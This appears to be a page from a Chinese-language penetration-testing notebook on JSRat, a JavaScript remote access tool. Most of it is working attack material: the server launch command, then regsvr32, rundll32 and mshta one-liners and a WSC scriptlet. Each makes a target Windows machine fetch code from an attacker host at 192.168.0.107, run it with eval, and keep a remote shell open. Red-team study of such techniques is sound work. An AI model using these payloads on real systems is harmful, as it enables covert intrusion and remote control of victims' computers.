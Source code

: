 	https://github.com/Hood3dRob1n/JSRat-Py
	https://github.com/Ridter/MyJSRat
	启动
	>python JSRat.py -i 192.168.0.107 -p 1234
	MyJSRat可以-c参数指定执行的命令
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/247.png)

	/connect是回连地址，/wtf是执行代码
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/248.png)

	直接在靶机执行
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/249.png)

	或
	>regsvr32.exe /u /n /s /i:http://192.168.0.107:1234/file.sct scrobj.dll
	JSRat显示上线
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/250.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/251.png)

	Wsc方式
```xml
<?xml version="1.0"?>
<package>
<component id="testCalc">
<script language="JScript">
<![CDATA[
        rat="rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication \";document.write();h=new%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");w=new%20ActiveXObject(\"WScript.Shell\");try{v=w.RegRead(\"HKCU\\\\Software\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Internet%20Settings\\\\ProxyServer\");q=v.split(\"=\")[1].split(\";\")[0];h.SetProxy(2,q);}catch(e){}h.Open(\"GET\",\"http://192.168.0.107:1234/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}";
        new ActiveXObject("WScript.Shell").Run(rat,0,true);
]]>
</script>
</component>
</package>

```
	>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://192.168.0.107/jsrat.wsc")
	Mshta方式
	>mshta javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.0.107:1234/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im mshta.exe",0,true);}
